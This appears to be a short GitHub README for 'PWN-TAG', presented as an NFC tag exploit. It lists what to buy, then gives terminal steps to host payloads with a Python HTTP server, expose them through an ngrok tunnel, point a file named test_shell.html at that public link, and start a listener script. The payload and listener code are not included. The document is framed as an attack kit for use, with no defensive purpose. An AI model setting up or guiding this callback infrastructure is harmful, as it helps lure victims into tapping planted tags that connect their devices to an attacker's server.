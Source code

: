 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 
nfc tag stickers about $10 for 25 >
https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

'''bash
python3 -m http.server 8080
'''
Leave it running — this hosts your payloads.

##2️Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

'''bash
ngrok http 8080
'''
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

'''bash
nano payloads/test_shell.html
'''
Replace with your real ngrok link

##Start Listener in Terminal 4

'''bash
python3 listener.py
'''
